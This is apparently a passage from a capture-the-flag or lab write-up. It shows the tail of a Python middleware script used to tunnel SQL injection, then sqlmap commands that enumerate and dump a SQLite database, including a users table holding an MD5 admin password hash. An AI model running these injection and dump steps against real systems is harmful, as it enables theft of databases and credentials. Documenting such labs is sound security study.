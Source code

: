 ```python
    httpd.serve_forever()

print("[+] Starting Middleware Server")
print("[+] Send payloads in http://localhost:8081/?version=*")

try:
    middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
    pass
```
##### output
```bash
$ python3 exploit2.py       
[+] Starting Middleware Server
[+] Send payloads in http://localhost:8081/?version=*

```

#### Execute SQLMap on the running middleware server
`$ sqlmap -u "http://localhost:8081/?version=*" --batch --dbs  --level 5 --risk 3`

#### Get database structure and data
```bash
> sqlmap -u "http://localhost:8081/?version=*"   --tables 
[11:11:38] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[11:11:38] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[6 tables]
+-----------------+
| answers         |
| info            |
| reports         |
| sqlite_sequence |
| users           |
| versions        |
+-----------------+
```

```bash
sqlmap -u "http://localhost:8081/?version=*"  --dbms=SQLite --dump
```

##### Found data
We can see the md5 hashed admin password in the users table. MD5 is easy to crack with a bunch of tools.

We can see also some interesting text in the answers table:
> Hello Json,\n\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\n\nThomas Keller 

>Hello Mike,\n\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\n\nThomas Keller

